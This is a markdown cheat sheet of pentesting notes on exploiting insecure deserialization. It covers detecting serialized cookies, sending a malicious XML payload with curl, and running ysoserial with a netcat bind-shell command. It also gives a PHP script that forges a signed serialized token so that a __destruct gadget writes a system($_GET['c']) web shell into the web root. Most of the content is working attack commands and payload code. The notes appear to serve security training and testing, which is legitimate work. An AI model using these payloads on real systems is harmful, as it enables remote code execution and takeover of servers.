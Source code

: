 ### When using Deserialization scanner
 ** remember to change to POST and add Content-length

### When a cookie appears to be b64 - decode in burp (to get hex output) and look for nullbytes in the string, this is a good indication that the object is serialized  
 ** Once you run through the steps to generate the payload, we simply replace the serialized cookie with our payload
 
### To lauch a malicious .xml at a page: (NOTE a page full of errors being returned does not indicate the payload did not execute, check your listener :) )
 ** `curl http://target.site/orders.xhtml -X POST -H 'Content-Type: application/xml' --data @payload.xml`
 
### `ysoserial` usage  
 ** Either identify exactly which library is available OR run through each payload  
 ** Base 64 encode your output, so pipe into base64 `<ysoserial and args> | base64`  
 ** `java -jar ysoserial.jar <payload type> <command>` EG `java -jar ysoserial.jar Spring1 'nc -l -p 3443 -e /bin/sh'`  
 
### Functions to look for in source code as a trampoline gadget to jump to from `unserialize` function
 ** `__wakeup`
 ** `__destruct` - works because of how the below code writes to file - we can control what goes in there:
 ```
 function __destruct() {
    \/\/ Loogging access 
    $fd = fopen($this->logfile, 'a'); 
    fwrite($fd, $_GET['action'].\":\".$this->uuid.' by '.$this->owner.\"\
\");
```
We can see the above code exploited as below, let's say we discovered an LFI that allowed us to obtain the source code used for serialization, thus allowing us to serialize the payload to be executed by `__destruct` 
```
<?php
define('KEY', "ooghie1Z Fae8aish OhT3fie6 Gae2aiza");

function sign($data) {
  return hash_hmac('md5', $data, KEY);
}
function tokenize($user) {
    $token = urlencode(base64_encode(serialize($user))); 
    $token.= "--".sign($token); 
    return $token;
}
class File {
  public $owner,$uuid, $content; //change to public $owner,$uuid='<?php system($_GET["c"]);?>';
  public $logfile = "/var/www/logs/application.log"; //change to public $logfile = "/var/www/zzz.php
}
echo tokenize(new File());
?>
```
The above spits out a token when ran which we can then send in a request to the server to be deserialized - we need to be careful that we send to the correct endpoint to ensure correct handling.
